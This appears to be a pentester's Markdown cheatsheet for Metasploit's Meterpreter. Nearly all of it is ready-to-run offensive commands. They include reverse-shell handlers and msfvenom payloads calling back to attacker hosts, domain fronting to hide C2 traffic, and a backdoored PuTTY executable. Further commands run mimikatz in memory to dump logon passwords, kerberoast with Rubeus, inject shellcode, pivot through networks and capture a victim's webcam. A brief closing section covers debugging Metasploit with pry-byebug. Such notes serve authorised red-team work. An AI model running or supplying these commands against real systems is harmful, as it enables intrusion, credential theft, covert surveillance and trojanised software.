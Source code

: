 # Meterpreter

* [https://buffered.io/posts/staged-vs-stageless-handlers/](https://buffered.io/posts/staged-vs-stageless-handlers/)
* [https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/)
* [https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation](https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation)
* [https://xakep.ru/2020/07/03/metasploit-guide/](https://xakep.ru/2020/07/03/metasploit-guide/)
* [https://diablohorn.com/2013/02/21/we-bypassed-antivirus-how-about-idsips/](https://diablohorn.com/2013/02/21/we-bypassed-antivirus-how-about-idsips/)
* [https://redops.at/en/blog/meterpreter-vs-modern-edrs-in-2023](https://redops.at/en/blog/meterpreter-vs-modern-edrs-in-2023)




## Cheatsheet

Quick handler launch:

```
msf > handler -H eth0 -P 443 -p windows/x64/meterpreter/reverse_https [-e x64/xor] [-x]
```

Bind RC4 payload & handler through SOCKS proxy:

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 RHOST=10.10.13.37 LPORT=443 RC4PASSWORD='Passw0rd!' -f exe -o rev.exe
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/bind_tcp_rc4
msf exploit(multi/handler) > set RHOST 192.168.1.11
msf exploit(multi/handler) > set LPORT 443
msf exploit(multi/handler) > set RC4PASSWORD Passw0rd!
msf exploit(multi/handler) > set PROXIES socks5:127.0.0.1:1080
msf exploit(multi/handler) > run
```

Generate a custom SSL certificate for encrypting C2 communications:

```
$ openssl req -batch -new -newkey rsa:4096 -days 365 -nodes -x509 -keyout cert.key -out cert.crt
$ cat cert.key cert.crt > cert.pem
$ msfvenom -p ... HandlerSSLCert=./cert.pem StagerVerifySSLCert=true ...
msf exploit(multi/handler) > set HandlerSSLCert /home/snovvcrash/cert.pem
msf exploit(multi/handler) > set StagerVerifySSLCert true
```

Automation (about `exploit` flags [here](https://github.com/rapid7/metasploit-framework/blob/4049c41ac1b6f12566b055dc5442192072ea5d78/lib/msf/ui/console/command_dispatcher/exploit.rb#L17-L27)):

{% code title="auto.rc" %}
```
// sudo msfconsole -qr auto.rc
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_winhttps
set LHOST 10.10.13.37
set LPORT 443
set EXITFUNC thread
set StageEncoder x64/zutto_dekiru
set EnableStageEncoding true
set HandlerSSLCert /home/snovvcrash/cert.pem
set StagerVerifySSLCert true
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -jz
```
{% endcode %}

Start SOCKS server (default is SOCKS5):

```
msf > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf auxiliary(server/socks_proxy) > run -j
```

Handle connections with **domain fronting**:

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=legitimate.com LPORT=443 HttpHostHeader=cdn.provider.net -f exe -o https.exe
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
msf exploit(multi/handler) > set LHOST legitimate.com
msf exploit(multi/handler) > set OverrideLHOST legitimate.com
msf exploit(multi/handler) > set OverrideRequestHost true
msf exploit(multi/handler) > set HttpHostHeader cdn.provider.net
msf exploit(multi/handler) > run
```

Migrate to a different architecture:

```
msf > use post/windows/manage/archmigrate
msf post(windows/manage/archmigrate) > set SESSION 1
msf post(windows/manage/archmigrate) > run
```

Switch to the next [transport](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Transport-Control) killing current session:

```
meterpreter > transport add -t reverse_tcp -l 10.10.13.37 -p 9002
meterpreter > transport list
msf > handler -H eth0 -P 9002 -p windows/x64/meterpreter/reverse_tcp
meterpreter > transport next
```

Reverse local port `3389` (on Victim, `192.168.1.11`) to local port `43389` (on Attacker):

```
meterpreter > portfwd add -l 43389 -p 3389 -r 192.168.1.11
[*] Local TCP relay created: :43389 <-> 192.168.1.11:3389
$ xfreerdp /u:administrator /p:'Passw0rd!' /v:127.0.0.1:43389
```

Routing:

```
meterpreter > run autoroute -s 192.168.10.0/24
meterpreter > run autoroute -p
Or
msf5 > route add 192.168.10.0/24 1
msf5 > route
```

Execute binary from memory:

```
meterpreter > execute -cimH -d calc.exe -f /home/snovvcrash/www/mimikatz.exe -a '"sekurlsa::logonPasswords full" "exit"'
```

[Execute](https://github.com/b4rtik/metasploit-execute-assembly) .NET assembly from memory:

```
msf > use post/windows/manage/execute_dotnet_assembly
msf post(windows/manage/execute_dotnet_assembly) > set DOTNET_EXE /home/snovvcrash/www/Rubues.exe
msf post(windows/manage/execute_dotnet_assembly) > set ARGUMENTS "kerberoast /usetgtdeleg /format:hashcat"
msf post(windows/manage/execute_dotnet_assembly) > set SESSION 1
msf post(windows/manage/execute_dotnet_assembly) > run
```

Inject shellcode:

```
msf > use post/windows/manage/shellcode_inject
msf post(windows/manage/shellcode_inject) > set SHELLCODE /home/snovvcrash/www/shellcode.bin
msf post(windows/manage/shellcode_inject) > set SESSION 1
msf post(windows/manage/shellcode_inject) > run
```

Backdoored legit executable with delayed Stdapi loading:

```
$ wget https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe
$ msfvenom -p windows/x64/meterpreter_reverse_http LHOST=eth0 LPORT=8080 EXITFUNC=thread -e x64/xor_dynamic -i 10 -k -x putty.exe -f exe -o evilputty.exe
$ sudo msfconsole -qx 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_http; set LHOST eth0; set LPORT 8080; set AutoLoadStdapi false; set EXITFUNC thread; run'
meterpreter > use unhook
meterpreter > load stdapi
```

Get web camera capture:

```
meterpreter > webcam_list
meterpreter > webcam_snap [-i <CAMERA_ID>]
meterpreter > webcam_stream
```




## Debug

* [https://github.com/deivid-rodriguez/pry-byebug](https://github.com/deivid-rodriguez/pry-byebug)

{% embed url="https://youtu.be/QzP5nUEhZeg?t=2190" %}

```
$ gem install pry-byebug
$ vi ~/.pry-byebug
```

{% code title="pry-byebug" %}
```ruby
if defined?(PryByebug)
  Pry.commands.alias_command 'c', 'continue'
  Pry.commands.alias_command 's', 'step'
  Pry.commands.alias_command 'n', 'next'
  Pry.commands.alias_command 'f', 'finish'
end

 # Hit Enter to repeat last command
Pry::Commands.command /^$/, "repeat last command" do
  _pry_.run_command Pry.history.to_a.last
end
```
{% endcode %}

```
$ cp -r /usr/share/metasploit-framework/ /opt
$ vi /opt/metasploit-framework/msfconsole
...add "require 'pry-byebug'"...
$ mkdir -p ~/.msf4/modules/exploits/linux/http/
$ cp /usr/share/metasploit-framework/modules/exploits/linux/http/packageup.rb ~/.msf4/modules/exploits/linux/http/p.rb
$ vi ~/.msf4/modules/exploits/linux/http/p.rb
...add "binding.pry"...
```
